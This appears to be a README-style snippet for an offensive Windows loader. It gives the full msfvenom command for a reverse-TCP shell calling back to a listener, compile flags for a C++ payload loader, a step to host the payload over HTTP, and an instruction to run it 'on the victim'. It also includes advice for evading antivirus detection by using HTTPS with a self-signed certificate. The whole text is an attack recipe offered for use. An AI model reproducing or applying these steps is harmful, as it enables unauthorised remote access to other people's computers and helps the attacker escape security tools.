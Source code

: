 >To make this work,create a msfvenom payload

>msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.175 LPORT=8000 -f raw >beacon.bin
>Compile .cpp using the command:- x86_64-w64-mingw32-g++ --static -o pay.exe simple.cpp -fpermissive -lws2_32
>Host the payload file using a http server :- python3 -m http.server

>Run the binary on the victim to get a call back.
>The payload will get detected after a while,make sure to use https encrypted payload.
>create your own ssl self signed certificate to use it for the https reverse payload ,since the one used by metasploit is signatured.
